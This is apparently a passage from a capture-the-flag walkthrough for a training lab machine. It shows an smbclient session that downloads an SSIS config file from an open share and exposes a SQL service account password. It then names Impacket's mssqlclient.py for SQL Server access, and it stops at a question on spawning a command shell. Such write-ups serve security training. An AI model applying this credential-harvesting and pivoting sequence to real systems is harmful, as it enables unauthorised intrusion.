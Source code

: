 ## What is the password identified in the file on the SMB share?

```bash
➜  smbclient \\\\10.129.92.164\\backups

Enter WORKGROUP\root's password:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jan 20 07:20:57 2020
  ..                                  D        0  Mon Jan 20 07:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 07:23:02 2020

                5056511 blocks of size 4096. 2616354 blocks available
smb: \> mget prod.dtsConfig
Get file prod.dtsConfig? yes
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (0.6 KiloBytes/sec) (average 0.6 KiloBytes/sec)
smb: \> exit
➜  kali cat prod.dtsConfig
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>#                                                                                                         ➜
```

> A DTSCONFIG file is an XML configuration file used to apply property values to SQL Server Integration Services (SSIS) packages. The file contains one or more package configurations that consist of metadata such as the server name, database names, and other connection properties to configure SSIS packages. _Source: [fileinfo](https://fileinfo.com/extension/dtsconfig#:~:text=A%20DTSCONFIG%20file%20is%20an,properties%20to%20configure%20SSIS%20packages.)_

`M3g4c0rp123`

## What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?

[Impacket/mssqlclient.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/mssqlclient.py)

`mssqlclient.py`

## What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?
